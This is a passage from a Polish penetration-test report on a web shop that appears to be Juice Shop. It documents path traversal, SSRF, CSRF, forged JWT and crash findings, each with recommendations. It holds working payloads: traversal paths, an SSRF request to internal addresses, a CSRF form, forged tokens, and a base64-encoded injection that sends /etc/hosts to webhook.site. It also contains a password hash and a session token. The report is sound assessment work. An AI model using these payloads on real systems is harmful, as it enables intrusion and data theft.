\multicolumn{1}{|c|}{\cellcolor[HTML]{EFEFEF}\textbf{Metoda}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Końcówka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Nagłowki}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Ciasteczka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Dane}}                             & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Odpowiedź/wynik}} \\ \hline
GET    & 
\begin{tabular}[c]{@{}l@{}}
/assets/public/images/products/../../../../../../../../etc/hosts
\end{tabular} 
& -   & -   & - &  400 Bad Request \\ \hline
\end{tabular}
\end{table}

Innym przykładem jest zapytanie \lstinline[]|/assets/public/images/products/../products/apple_pressings.jpg|, które zwracało obrazek produktu, co pokazuje że chodzenie po ścieżce jest możliwe. W trakcie kilku prób testowych zachowanie nie różniło się końcówki /ftp/, dlatego ta końcówka nie została zbadana i opisana dokładniej.


\subsubsection{Skutki}
Nie udało się przeprowadzić skutecznego ataku, jednak zaobserwowano kilka faktów związanych z systemem.

W tym przypadku od razu w oczy rzuca się nowy błąd, czyli Bad Request. Biorąc pod uwagę odpowiedzi zwracane w badaniach Path Traversal (częste 403: only.md and .pdf [...] allowed) można sądzić, że przetestowane tutaj zapytania prawdopodobnie trafiają w plik /etc/hosts i z powodu Null Byte Poisoning serwer próbuje je pobrać, ale na pewnym etapie przetwarzania orientuje się, że jest to plik z niedozwolonej ścieżki i zwraca domyślny błąd. Jest to przesłanka, że obsługa błędów i zabezpieczenia mogą nie być zrealizowane dostatecznie profesjonalnie, dlatego zalecane było by przyjrzenie się działaniu tej końcówki od strony kodu.

\subsubsection{Zalecenia}
Mimo, że atak Path Traversal się nie powiódł to na podstawie zwracanych błędów można powiedzieć, że warto przyjrzeć się kodowi tej końcówki i upewnić się, że wszystko jest bezpieczne.


\section{Udostępnione dane o szczegółach strony}
Pliki źródłowe strony nie są w żaden sposób zabezpieczone, ani zminifikowane, więc w bardzo łatwy sposób można je przeglądać. Jak się okazuje zawarte jest w nich kilka interesujących ścieżek:
\begin{itemize}
    \item Podglądanie koszyków
    
    Jedną ze znalezionych końcówek jest /basket/{id}. Okazuje się, że każdy użytkownik może podejrzeć dowolny koszyk pod warunkiem, że zapytanie będzie zawierać nagłówek z autoryzacją. Oznacza to, że wystarczy się zalogować, by podejrzeć wszystkie koszyki co jest oczywistym naruszeniem prywatności.

    \item Panel administracyjny
    
    Po zalogowaniu się na konto administratora otrzymuje się dostęp do specjalnego panelu pod ścieżką /\#/administration. Informacja o tej końcówce została znalezione w pliku strony main.js (Line 1, Column 29862). Trzeba jednak zaznaczyć, że jest to dość specyficzna podatność, bo jest to element podpowiedzi od twórców JuiceShop.

    \item Inne ciekawe znalezione końcówki, których nie udało się wykorzystać
    
    /wallet-web3, /web3-sandbox
\end{itemize}

{\rule{\linewidth}{0.2mm}}
\begin{center}
    \textcolor{red}{APLIKACJA UDOSTĘPNIA DANE NIEODPOWIEDNIM UŻYTKOWNIKOM}
\end{center} 

\subsection{\colorbox{orange!80}{\parbox{\textwidth}{PT16-SSRF: Atak Server Side Request Forgery}}}
\subsubsection{Opis}
Atak polegał na sprowokowaniu serwera do wysłania żądania GET na wybrany adres poprzez podanie linku w formularzu zmiany awatara.

\subsubsection{Warunki wykonania ataku}
Atakujący musi posiadać dowolny poprawny token.

\subsubsection{Szczegóły wykonania}
Atak został zrealizowany poprzez zapytanie zawarte w tabeli. W podanym przykładzie celem był adres zawierający się w sieci wewnętrznej kontenerów, do której należy host aplikacji (wiedza o tym pochodzi z ataku RCE).
\begin{table}[H]
\begin{tabular}{|l|l|l|l|l|l|}
\hline
\rowcolor[HTML]{EFEFEF} 
\multicolumn{1}{|c|}{\cellcolor[HTML]{EFEFEF}\textbf{Metoda}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Końcówka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Nagłowki}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Ciasteczka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Dane}}                             & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Odpowiedź/wynik}} \\ \hline
POST                                                          & /profile/image/url                                        & \begin{tabular}[c]{@{}l@{}}Authentication \\ Bearer TOKEN \end{tabular} & \begin{tabular}[c]{@{}l@{}}token: \\ TOKEN\end{tabular}   & \begin{tabular}[c]{@{}l@{}}\{"imageUrl":"http://169.254.1.2"\}\end{tabular} & 302 /profile                               \\ \hline
\end{tabular}
\end{table}

\subsubsection{Skutki}
Wynik zapytania (id 22 uzyskane na podstawie śledzenia pakietów w Burp) można podejrzeć wykorzystując proste żądanie GET:
\begin{lstlisting}
GET /assets/public/images/uploads/22.jpg
\end{lstlisting}
Wynik zapytania SSRF:
\begin{lstlisting}
<!doctype html>
<html>
  <head>
    <meta charset='utf-8'>
    <meta name='viewport' content='width=device-width, initial-scale=1'>
    <title>Test Page for the HTTP Server on Fedora</title>
    <style type="text/css">
      /*<![CDATA[*/
      [...]
\end{lstlisting}

Ten przykład jest niegroźny, ale nie jest ciężko sobie wyobrazić, że bardziej doświadczony atakujący mógłby wykorzystać program automatycznie przeszukujący sieć i w ten sposób wykorzystać SSRF do \textbf{wyszukania kolejnych potencjalnych węzłów do ataku}.

Ta metoda ataku została również użyta do wysłania żądania na webhook. Czynność powiodła się bez problemu, co daje atakującemu \textbf{możliwość użycia sklepu do wykonywania podejrzanych połączeń} i np. dodatkowego ukrycia się przy rekonesansie zupełnie niepowiązanych serwisów (mógłby wykonać rekonesans jako sklep używając SSRF, a następnie usunąć historię swoich połączeń ze sklepem przez znalezione wcześniej RCE zacierając swoje ślady)

\subsubsection{Zalecenia}
Zabezpieczenie przed atakiem SSRF jest tutaj bardzo trudne, co wynika z samego charakteru dostarczanej użytkownikowi funkcji. Pierwszą sugestią było by dodanie walidacji URL poszerzonej o wyrażenie regularne sprawdzające, czy poprawny link na pewno odnosi się do obrazka o określonych rozszerzeniach (trzeba by tu było również pamiętać o Null Byte Poisoning!).

Inną pomocną czynnością było by zablokowanie użytkownikowi reprezentującemu serwer w systemie kontenera zapytań do sieci niepublicznych.

Prawdopodobnie najbezpieczniejszym rozwiązaniem jest całkowite usunięcie funkcji zmiany awatara przez link. Taka funkcja nie jest czymś kluczowym dla serwisu, a jeśli komuś bardzo zależy na swoim profilu to mógłby pobrać obrazek i wgrać go ręcznie w mniej niż minutę

\subsection{\colorbox{orange!80}{\parbox{\textwidth}{PT17-CSRF: Atak Cross-Site Request Forgery}}}

\subsubsection{Opis}
Atak CSRF polegał na implementacji formularza, potajemnie wysyłającego żądanie zmiany awatara, w niepowiązanym ze sklepem serwisie. Do testów użyta została strona internetowa htmledit.squarefree.com/.

Atak CSRF w trakcie testów nie powiódł się. Z drugiej strony analiza żądań oraz przegląd opinii innych testerów w internecie wskazuje na to, że powodem niepowodzenia były wbudowane zabezpieczenia nowoczesnych przeglądarek, a nie aplikacji sklepowej. Dowodem na to jest powodzenie ataku po ręcznym doklejeniu ciasteczek mimo obecności nagłówków typu Sec-Fetch-Site: cross-site jasno ostrzegających o możliwym CSRF. Można więc powiedzieć, że mimo niepowodzenia aplikacja posiada podatność na ten atak.

\subsubsection{Warunki wykonania ataku}
Atakujący musi posiadać dostęp do innego serwisu, gdzie może edytować kod formularzy. Użytkownik musi skorzystać z tego serwisu. Przeglądarka użytkownika musi być na tyle przestarzała, by pozwolić na wykonanie ataku.

\subsubsection{Szczegóły wykonania}
Kod formularza użytego w serwisie zewnętrznym, którego celem była zmiana pseudonimu:
\begin{lstlisting}
<html>
	<body>
		<form method="POST" action="https://adoringcohen.acme.edu.pl/profile">
			<input type="hidden" name="username" value="im_a_victim"/>
			<input type="submit" value="Submit">
		</form>
	</body>
<html>
\end{lstlisting}

Wypełnienie formularza skutkowało wysłaniem następującego żądania:
\begin{lstlisting}
POST /profile HTTP/2
Host: adoringcohen.acme.edu.pl
Content-Length: 20
Cache-Control: max-age=0
Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: pl-PL,pl;q=0.9
Origin: https://htmledit.squarefree.com
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: frame
Sec-Fetch-Storage-Access: active
Referer: https://htmledit.squarefree.com/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

username=im_a_victim
\end{lstlisting}
Jak pokazuje analiza żądania w BurpSuite użyta przeglądarka nie dokleiła ciasteczek, mimo że użytkownik był aktualnie zalogowany w sklepie.

Ręczne dodanie ciasteczek do tego samego żądania (wykorzystując dane z innych prostych przykładów) pozwoliło na zmianę pseudonimu.

Żądanie, które zmieniało pseudonim (pozostałe elementy/nagłówki były identyczne jak w powyższym, atak wykonywany był przez BurpSuite):
\begin{lstlisting}
[...]
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; continueCode=xkV4XwOjLlQmrd8Btoi3t4fzt1TyWuY3HKaheVtazU3WFJ906gBbWaERzZMy; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MjIsInVzZXJuYW1lIjoiI3
tyZXF1aXJlKCdodHRwcycpLmdldCgnaHR0cHM6Ly93ZWJob29rLnNpdGUvM2Y0MDZmMjItNzc
5ZS00NGEzLWE3Y2UtMDVlOTE0NmFhMDA5P2RhdGE9JyArIGVuY29kZVVSSUNvbXBvbmVudChy
ZXF1aXJlKCdmcycpLnJlYWRGaWxlU3luYygnL2V0Yy9ob3N0cycsICd1dGY4JykpKTt9IiwiZ
W1haWwiOiJmaWxpcEBtYWlsLmNvbSIsInBhc3N3b3JkIjoiYmE2Y2RhYTUzZGVkNDQyODU5Nj
MwMTRjODNkY2NhY2ZlOWUwNmU5YjQzODc2M2JjNGJhMWEyMzgzM2VkZDQ3NyIsInJvbGUiOiJ
jdXN0b21lciIsImRlbHV4ZVRva2VuIjoiIiwibGFzdExvZ2luSXAiOiIxMC40Mi4xMi4xMDQi
LCJwcm9maWxlSW1hZ2UiOiJodHRwczovL2Fkb3Jpbmdjb2hlbi5hY21lLmVkdS5wbC9hc3Nld
HMvcHVibGljL2ltYWdlcy91cGxvYWRzL2RlZmF1bHQuc3ZnIiwidG90cFNlY3JldCI6IiIsIml
zQWN0aXZlIjp0cnVlLCJjcmVhdGVkQXQiOiIyMDI1LTA1LTE2VDEwOjM4OjQyLjMwMloiLCJ1c
GRhdGVkQXQiOiIyMDI1LTA1LTE2VDE1OjA3OjExLjcwMloiLCJkZWxldGVkQXQiOm51bGx9LCJ
pYXQiOjE3NDc0MDgwMzJ9.d8jrsNnP1HZ-3WV
BciASup17-BwDyl103JYoP56G79iwEdWTppUx-uXo29QmaHZn2bt9dAaiuNwUf5YAu6hcgDVeJ
iDAynukLo1MHIpJpKbn5f2sHdSrtGh9-qgw3un0oof8TQ6Syh0WConNjwhfwUs5GVT9nao3O4260w6QEzs
[...]
\end{lstlisting}

\subsubsection{Skutki}
Atakujący ma \textbf{możliwość wykonywania dowolnych akcji w imieniu użytkownika}.

\subsubsection{Zalecenia}
Istnieje kilka metod zabezpieczeń przed CSRF:
\begin{itemize}
  \item Wykorzystanie stanu przy ważniejszych formularzach:
  
  Serwer wysyłając formularz dodaje do niego ukryte pole z losowym stanem, który zapamiętuje. Jeśli odpowiedź na formularz zawiera ten sam stan to odpowiedź jest akceptowana, jeśli nie to ignoruje. Wtedy żądanie z ataku CSRF nie znając stanu nie może nic zmienić.
  \item Ciasteczka SameSite
  
  Odpowiednie ustawienie ciasteczek sprawia, że zostaną one doklejone tylko do zapytań pochodzących z tej samej domeny. Aktualnie wiele przeglądarek wymusza takie ustawienia jako domyślne, co jest powodem niepowodzenia ataku w przeprowadzonych badaniach.
\end{itemize}
Aby zagwarantować bezpieczeństwo również dla użytkowników ze starszymi wersjami przeglądarek warto zaimplementować kilka poprawek przynajmniej dla najważniejszych formularzy w aplikacji. Informacje o ataku i poprawkach zostały oparte głównie o źródło \href{https://portswigger.net/web-security/csrf\#common-defences-against-csrf}{https://portswigger.net/web-security/csrf\#common-defences-against-csrf}
  

\section{Ataki na JWT}
\subsection{Brak podpisu}

Atak polegał na pobraniu poprawnego tokena, zamianie zawartego w nim id użytkownika na inny (przykładowo 1 dla konta admina), a następnie wysłaniu go do chatbota, który w podstawowej aplikacji odsyła odświeżone tokeny.

Przykładowy FAKE\_TOKEN był równy: 
\begin{lstlisting}
eyJ0eXAiOiAiSldUIiwgImFsZyI6ICJub25lIn0.eyJzdGF0dXMiOiAic3VjY2VzcyIsICJkYXRhIjogeyJpZCI6IDEsICJ1c2VybmFtZSI6ICJDYXJsIi
wgImVtYWlsIjogImZpbGlwQG1haWwuY29tIiwgInBhc3N3b3JkIjogImJhNmNkYWE1M2RlZDQ0Mjg1
OTYzMDE0Yzgz
ZGNjYWNmZTllMDZlOWI0Mzg3NjNiYzRiYTFhMjM4MzNlZGQ0NzciLCAicm9sZSI6ICJjdXN0b21lci
IsICJkZWx1eGVUb2tlbiI6ICIiLCAibGFzdExvZ2luSXAiOiAiMTAuNDIuMTIuMTA0IiwgInByb2Zp
bGVJbWFnZSI6ICJodHRwOi8vYXNzZXRzL3B1YmxpYy9pbWFnZXMvdXBsb2Fkcy8xLmpwZzsgc2NyaX
B0LXNyYyAndW5zYWZlLWlubGluZSciLCAidG90cFNlY3JldCI6ICIiLCAiaXNBY3RpdmUiOiB0cnVl
LCAiY3JlYXRlZEF0IjogIjIwMjUtMDUtMTIgMDk6MDQ6NTIuMTU4ICswMDowMCIsICJ1cGRhdGVkQX
QiOiAiMjAyNS0wNS0xMiAxNTo1MTowMi45MTYgKzAwOjAwIiwgImRlbGV0ZWRBdCI6IG51bGx9LCAi
aWF0IjogMTc0NzA2NTYxNH0.
\end{lstlisting}

co można rozszyfrować do danych (część nieistotnych pól została pominięta):
\begin{lstlisting}
{
  "typ": "JWT",
  "alg": "none"
}
\end{lstlisting}
\begin{lstlisting}
{
  "status": "success",
  "data": {
    "id": 1,
    "username": "Carl",
    "email": "filip@mail.com",
    "password": "ba6cdaa53ded44285963014c83dccacfe9e06e9b438763bc4ba1a23833edd477",
    "role": "customer",
    [...]
  },
  [...]
}
\end{lstlisting}

oraz brak trzeciej części, czyli podpisu (co potwierdza samotna kropka w tokenie).

\begin{table}[H]
\begin{tabular}{|l|l|l|l|l|l|}
\hline
\rowcolor[HTML]{EFEFEF} 
\multicolumn{1}{|c|}{\cellcolor[HTML]{EFEFEF}\textbf{Metoda}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Końcówka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Nagłowki}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Ciasteczka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Dane}}                             & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Odpowiedź/wynik}} \\ \hline
POST                                                          & /rest/chatbot/respond                                          & \begin{tabular}[c]{@{}l@{}}Authentication: \\ Bearer FAKE\_TOKEN\end{tabular}                                  & \begin{tabular}[c]{@{}l@{}}token: \\ FAKE\_TOKEN\end{tabular}                                           & \begin{tabular}[c]{@{}l@{}}\{"action":"setname",\\"query":"Carl" \}\end{tabular} & 401 Unauthenticated user \\ \hline
\end{tabular}
\end{table}

Jak widać po odpowiedzi endpoint został zabezpieczony, ponieważ automatycznie odrzuca niepodpisany token jako Unauthenticated. Dla porównania wysłanie poprawnego tokena zwróciło odpowiedź:
\begin{lstlisting}
200 {"action":"response","body":"Nice to meet you Carl, I'm Juicy"}
\end{lstlisting}
Warto jednak zaznaczyć, że nawet dla poprawnego tokena endpoint nie zwraca już odświeżonego tokena, co jest dodatkową poprawką w stosunku do podstawowej wersji aplikacji.

Dodatkowo, wysłanie niepodpisanego tokena metodą GET /rest/user/whoami z nagłówkiem i ciasteczkiem nie zwraca danych użytkownika, więc w tym miejscu aplikacja również została poprawiona.

\subsection{\colorbox{green!80}{\parbox{\textwidth}{PT19-JWT-HS: Użycie żetona JWT z innym algorytmem podpisu}}}
\subsubsection{Opis}
Atak polegał na zaszyfrowaniu zmodyfikowanego żetonu z użyciem klucza publicznego sklepu, ale algorytmem symetrycznym HS256.

W przypadku końcówki rest/user/whoami mimo pozytywnego statusu odpowiedzi aplikacja nie zwraca żadnych informacji o użytkowniku, co oznacza że tak zmanipulowany token nie jest akceptowany. Jak się jednak okazało końcówka ta jest niesprawna.

Testy na końcówce /profile polegające na próbie zmiany pseudonimu potwierdziły jednak, że aplikacja została poprawiona.

\subsubsection{Warunki wykonania ataku}
Atakujący musi wiedzieć skąd pobrać klucz publiczny sklepu. Atakujący musi posiadać poprawny token do zmodyfikowania.

\subsubsection{Szczegóły ataku}
Przykładowy FAKE\_TOKEN był równy: 
\begin{lstlisting}
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.
eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MjIsInVzZXJuYW1lIjoiI3t2YXIgYSA9ICdh
YmNkZWZnaCc7dmFyIGIgPSAxMjM7IGErYn0iLCJlbWFpbCI6ImZpbGlwQG1haWwuY29tIiwicGFzc3dv
cmQiOiJiYTZjZGFhNTNkZWQ0NDI4NTk2MzAxNGM4M2RjY2FjZmU5ZTA2ZTliNDM4NzYzYmM0YmExYTIz
ODMzZWRkNDc3Iiwicm9sZSI6ImN1c3RvbWVyIiwiZGVsdXhlVG9rZW4iOiIiLCJsYXN0TG9naW5JcCI6
IjEwLjQyLjEyLjEwNCIsInByb2ZpbGVJbWFnZSI6Imh0dHA6Ly9hc3NldHMvcHVibGljL2ltYWdlcy91
cGxvYWRzLzIyLmpwZz9hPWI7IHNjcmlwdC1zcmMgJ3Vuc2FmZS1pbmxpbmUnIiwidG90cFNlY3JldCI6
IiIsImlzQWN0aXZlIjp0cnVlLCJjcmVhdGVkQXQiOiIyMDI1LTA1LTEyIDA5OjA0OjUyLjE1OCArMDA6
MDAiLCJ1cGRhdGVkQXQiOiIyMDI1LTA1LTEyIDE2OjE0OjU4Ljc4OSArMDA6MDAiLCJkZWxldGVkQXQi
Om51bGx9LCJpYXQiOjE3NDcwNjczNjJ9.i09sGgLtT6JuiNtXyoGM_14fqGwOg9Ph80ZgbKKaCjQ
\end{lstlisting}

co można rozszyfrować do danych (część nieistotnych pól została pominięta):
\begin{lstlisting}
{
  "typ": "JWT",
  "alg": "HS256"
}
\end{lstlisting}
\begin{lstlisting}
{
  "status": "success",
  "data": {
    "id": 22,
    "username": "Carl",
    "email": "filip@mail.com",
    "password": "ba6cdaa53ded44285963014c83dccacfe9e06e9b438763bc4ba1a23833edd477",
    "role": "customer",
    [...]
  },
  [...]
}
\end{lstlisting}

Podpis stanowiący trzecią część tokena został dodatkowo zweryfikowany z użyciem serwisu jwt.io poprzez wklejenie sekretu aplikacji (/encryptionkeys/jwt.pub).

Żądanie realizujące atak:
\begin{table}[H]
\begin{tabular}{|l|l|l|l|l|l|}
\hline
\rowcolor[HTML]{EFEFEF} 
\multicolumn{1}{|c|}{\cellcolor[HTML]{EFEFEF}\textbf{Metoda}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Końcówka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Nagłowki}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Ciasteczka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Dane}}                             & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Odpowiedź/wynik}} \\ \hline
GET                                                          & /rest/user/whoami                                         & \begin{tabular}[c]{@{}l@{}}Authentication: \\ Bearer FAKE\_TOKEN\end{tabular}                                  & \begin{tabular}[c]{@{}l@{}}token: \\ FAKE\_TOKEN\end{tabular}                                           & - & 200 \{"user":\{\}\} \\ \hline
\end{tabular}
\end{table}

Jak się jednak okazało endpoint whoami zwracał pustą odpowiedź również dla poprawnego tokena, dlatego w celu sprawdzenia zabezpieczeń podjęta została próba zmiany pseudonimu z użyciem sztucznego JWT:
\begin{table}[H]
\begin{tabular}{|l|l|l|l|l|l|}
\hline
\rowcolor[HTML]{EFEFEF} 
\multicolumn{1}{|c|}{\cellcolor[HTML]{EFEFEF}\textbf{Metoda}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Końcówka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Nagłowki}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Ciasteczka}} & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Dane}}                             & \multicolumn{1}{c|}{\cellcolor[HTML]{EFEFEF}\textbf{Odpowiedź/wynik}} \\ \hline
POST                                                          & /profile                                         & \begin{tabular}[c]{@{}l@{}}Authentication: \\ Bearer FAKE\_TOKEN\end{tabular}                                  & -                                          & \{"username":"abc"\} & 500 Error: Blocked illegal activity by ::... \\ \hline
\end{tabular}
\end{table}

Jak widać próba wykonania tego ataku zakończyła się blokadą ze strony serwera (podobnie było przy teście tego endpointu z JWT bez podpisu). Dla porównania dla poprawnego JWT zapytanie kończyło się zmianą pseudonimu i przekierowaniem 302 na /profile. 

\subsubsection{Skutki}
Atak \textbf{nie powiódł się}. Zmodyfikowany token był blokowany przez wszystkie sprawdzone końcówki.


{\rule{\linewidth}{0.2mm}}
\begin{center}
    \textcolor{blue}{APLIKACJA NIE WYKAZUJE PODATNOŚCI NA MANIPULACJE JWT}
\end{center} 


\subsection{\colorbox{red!80}{\parbox{\textwidth}{PT20-FAIL: Awaria serwera powodowana uczciwymi akcjami}}}

\subsubsection{Opis}
Mówiąc żartobliwie, najbezpieczniejsza aplikacja to ta, która na nic nie pozwala. Ważnym elementem poprawiania aplikacji jest upewnienie się, że zachowa ona wszystkie funkcjonalności, co niestety w przypadku badanej wersji wydaje się być niespełnione.

Próba wykonania zamówienia w pełni uczciwy sposób kończyła się awarią aplikacji.
\subsubsection{Warunki wykonania ataku}
Brak. Wystarczy, że użytkownik chce skorzystać z aplikacji do zakupu.

\subsubsection{Szczegóły wykonania}
Próba zamówienia dowolnego produktu działa poprawnie do momentu zakończenia dodawania adresu. Następnie, kiedy dochodzi do etapu wyboru metody przesyłki nie są dostępne żadne opcje, a po przejściu na inne moduły strony są one puste i zaczynają być zwracane błędy 502 Bad Gateway i sklep całkowicie przestaje działać. Jest to oczywiście niedopuszczalne, ponieważ uczciwi użytkownicy (czyli zdecydowana większość) nie mogą dokonać zakupu w aplikacji, która jest sklepem.

Awaria serwera kończyła się restartem połączonym z wyczyszczeniem danych. Nawet bezpośrednio po tym ponowne próby kończyły się równie źle, dlatego nie ma możliwości by to był skutek uboczny testów penetracyjnych.

\begin{figure}[H]
\caption{Brak możliwości wyboru metody(szybkości) dostawy}
\centering

\includegraphics[width=0.8\textwidth]{img/ss1.png}
\end{figure}

\begin{figure}[H]
\caption{Komunikat o awarii aplikacji/serwera będący następstwem próby zamówienia}
\centering

\includegraphics[width=0.8\textwidth]{img/ss2.png}
\end{figure}


\subsubsection{Skutki}

Uczciwy użytkownik może nieumyślnie \textbf{spowodować awarię aplikacji i wyczyszczenie danych}.

\subsubsection{Zalecenia}
Testy jednostkowe. Wprowadzanie zmian powinno być połączone z częstym uruchamianiem testów, które zagwarantują, że żaden moduł nie został przypadkowo uszkodzony.

